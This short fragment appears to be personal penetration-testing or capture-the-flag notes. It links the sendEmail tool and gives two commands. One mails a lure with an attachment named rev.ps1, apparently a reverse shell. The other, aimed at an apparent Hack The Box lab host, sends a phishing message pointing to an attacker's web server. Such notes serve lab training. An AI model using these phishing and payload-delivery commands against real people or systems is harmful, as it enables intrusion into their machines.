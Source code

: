 
https://github.com/mogaal/sendemail
./sendEmail -f maildmz@relia.com -t jim@relia.com -u "Open for money" -a rev.ps1 -s 192.168.194.189 -v 

swaks --to itsupport@outdated.htb --from poellie@poellie.com --server mail.outdated.htb --body "http://10.10.16.7/"